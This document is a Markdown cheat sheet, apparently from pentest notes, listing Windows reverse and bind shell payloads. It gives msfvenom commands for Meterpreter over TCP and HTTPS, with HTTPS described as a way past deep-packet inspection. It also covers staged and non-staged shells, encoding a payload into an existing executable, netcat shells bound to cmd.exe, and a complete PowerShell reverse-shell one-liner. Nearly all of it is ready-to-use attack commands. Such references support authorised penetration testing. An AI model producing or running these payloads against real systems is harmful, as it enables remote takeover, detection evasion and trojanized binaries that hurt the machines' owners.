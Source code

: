# Windows

## Standard Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

## Meterpreter HTTPS

* makes the meterpreter traffic look normal
* since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

## Non-Staged Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

## Staged Payload

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

* must be caught with metasploit
* does not work with netcat

```bash
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

## Inject Payload into Binary

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat

### Bind Shell

```bash
nc.exe -nlvp 4444 -e cmd.exe
```

### Reverse Shell

```bash
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

## Power Shell

* first start a nc listener on the attacking machine
* connect to it with this command \(change port and IP\)

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## One-Liner Blog

* [https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)



